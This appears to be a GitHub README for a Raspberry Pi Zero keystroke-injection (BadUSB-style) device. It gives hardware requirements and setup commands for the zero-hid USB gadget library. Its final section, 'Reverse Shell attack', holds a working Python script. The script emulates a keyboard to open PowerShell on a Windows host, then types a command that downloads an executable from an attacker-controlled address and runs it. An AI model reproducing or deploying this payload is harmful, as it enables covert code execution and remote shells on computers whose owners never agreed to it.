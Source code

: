 # Requirements

- Raspberry Pi Zero
- Micro usb to usb A adapter
- Revese Shell Server
- (optional) [Micro usb to usb A dongle](https://52pi.com/collections/raspberry-pi-zero/products/52pi-usb-dongle-for-raspberry-pi-zero-zero-w)

# Setup

- Install [Raspberry Pi Imager](https://www.raspberrypi.com/software/)
- Flash the OS into a SD card using Raspberry Pi Imager
- Insert the SD card into the PI
- Get the Pi's ip by accessing the routers domain and ssh into the device 
- Install apt dependencies
```
sudo apt-get update
sudo apt-get install -y git vim python3-pip python3-venv
```
- init rc-local file
```
sudo bash -c 'echo "#!/bin/bash" > /etc/rc.local'
sudo bash -c 'echo "exit 0" >> /etc/rc.local'   
sudo chmod +x /etc/rc.local
sudo systemctl daemon-reload
sudo systemctl enable rc-local
sudo systemctl start rc-local
```
- setup usb gadget module
```
git clone https://github.com/thewh1teagle/zero-hid
cd zero-hid/usb_gadget
sudo ./installer
```
- add sudo to the file line added by the script
- Create virtual environment and install module
```
python3 -m venv ~/venv
source ~/venv/bin/activate
pip3 install zero-hid
sudo reboot
```
# Reverse Shell attack

```python
from zero_hid import Keyboard, KeyCodes
from zero_hid.hid import keycodes
from time import sleep


with Keyboard() as k:
    k.press([KeyCodes.MOD_LEFT_GUI], KeyCodes.KEY_R)
    sleep(2)
    k.type("powershell")
    k.press([], KeyCodes.KEY_ENTER)
    sleep(2)
    k.type("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
```


